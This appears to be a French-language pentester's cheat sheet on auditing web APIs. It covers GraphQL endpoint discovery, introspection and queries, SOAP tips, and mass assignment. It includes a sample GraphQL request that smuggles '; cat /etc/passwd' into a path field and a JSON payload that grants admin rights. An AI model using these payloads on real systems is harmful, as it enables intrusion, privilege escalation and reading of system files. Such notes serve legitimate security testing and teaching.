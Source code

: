 # Web API

> [!TIP]
> Même si l'on pense maitriser son API, toujours énumerer, toujours vérifier lors des audits

## standard type

* SOAP
* RESTful
* GrpahQL

## Data Type

* XML
* JSON

## common content type:

* application/json
* application/xml 
* application/x-www-form-urlencoded 

## Convention

| Convention | Meaning |
-------------------------
| ":" or "{}" | variables |
| "[]" | optional input |
| "||" | possible values that can be used. |
| "< >" | ex. <find-function> Angle brackets represent a DomString, which is a 16-bit string. |

## tools généralement utilisés pour les tests (hors sécu)

* Postman
* Client http du même langage de programmation
* OWASP Zap / Burp Suite

## liste sommaire de repertoires pour trouver la doc:

```txt
/docs
/api/docs
/documentation
/developers/documentation
```

### liste de sous domaines pour trouver la doc

```txt
dev.
api.
```
### detect graphQL

```txt
/graphql
/v1/graphql
/api/graphql
/v1/api/graphql
Attacking GraphQL   291
/graph
/v1/graph
/graphiql
/v1/graphiql
/console
/query
/graphql/console
/altair
/playground
```

### exemples GraphQL

#### Requetes classiques:

lister les noms et pays de tous les clients :

```json
query {clients { name, country } }
```

Obtenir le client avec l'id 1

```json
query { client (id:1) { name, country } }
```

Appeller une fonction spécifique

```json
{
 clientsByCountry(countryId: 1) {
    id
    name
    country
  }
}
```


#### récupération du shéma (introspection)

```json
{
    "query": "{__schema{queryType{name}}}"
}
```

#### exemple type d'injection GraphQL retournant le fichier /etc/passwd

```sh
POST /graphql HTTP/1.1
Host: 192.168.195.132:5000
Accept: application/json
Content-Type: application/json

{"variables": {"scheme": "http",
"path": "/ ; cat /etc/passwd",
"port": 80, "host": "test.com"},
"query": "mutation ImportPaste ($host: String!, $port: Int!, $path: String!, $scheme: String!)
{\n importPaste(host: $host, port: $port, path: $path, scheme: $scheme)
{\n result\n }\n }"}
```

## SOAP

### Merge SOAP with XSD in Visual studio:

* Merge XSD in WSDL file
* Right click on the project and select "Add Service Reference" -> "WCF" -> "enter local Path or URI"


## API Mass Assignement

* Inject JSON and change HTTP Method to modify data.


ie, HTTP method : `PUT` with data : 
```json
{
  "status": "admin",
  "note":"Owned",
  "userid": "0",
  "username": "admin",
  "isAdmin":true
}
```